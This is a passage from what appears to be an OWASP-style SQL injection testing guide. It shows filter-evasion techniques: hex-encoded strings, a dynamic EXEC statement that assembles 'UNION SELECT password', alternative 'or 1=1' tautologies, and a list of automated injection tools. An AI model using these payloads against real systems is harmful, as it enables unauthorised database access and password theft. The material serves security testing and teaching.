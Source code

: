 ```
      Select user from users where name = unhex('726F6F74')
```

#### Declare variables

Declare the SQL injection statement into variable and execute it.

For example, SQL injection statement below

```
   Union Select password
```

Define the SQL statement into variable SQLivar

```
 ; declare @SQLivar nvarchar(80); set @myvar = N'UNI' + N'ON' + N' SELECT' + N'password');
EXEC(@SQLivar)
```

\==== Alternative Expression of 'or 1 = 1' ====

  - OR 'SQLi' = 'SQL'+'i'
  - OR 'SQLi' \> 'S'
  - or 20 \> 1
  - OR 2 between 3 and 1
  - OR 'SQLi' = N'SQLi'
  - 1 and 1 = 1
  - 1

| | 1 = 1

  - 1 && 1 = 1

## Tools

  - SQL Injection Fuzz Strings (from wfuzz tool) -
    <https://wfuzz.googlecode.com/svn/trunk/wordlist/Injections/SQL.txt>
  - [OWASP SQLiX](:Category:OWASP_SQLiX_Project "wikilink")
  - Francois Larouche: Multiple DBMS SQL Injection tool - [SQL Power
    Injector](http://www.sqlpowerinjector.com/index.htm)
  - ilo--, Reversing.org -
    [sqlbftools](http://packetstormsecurity.org/files/43795/sqlbftools-1.2.tar.gz.html)
  - Bernardo Damele A. G.: sqlmap, automatic SQL injection tool -
    <http://sqlmap.org/>
  - icesurfer: SQL Server Takeover Tool -
    [sqlninja](http://sqlninja.sourceforge.net)
  - Pangolin: Automated SQL Injection Tool -
    [Pangolin](http://www.nosec.org/en/productservice/pangolin/)
  - Muhaimin Dzulfakar: MySqloit, MySql Injection takeover tool -
    <http://code.google.com/p/mysqloit/>
  - Antonio Parata: Dump Files by SQL inference on Mysql -
    [SqlDumper](http://sqldumper.ruizata.com/)
  - [bsqlbf, a blind SQL injection
    tool](https://code.google.com/p/bsqlbf-v2/) in Perl
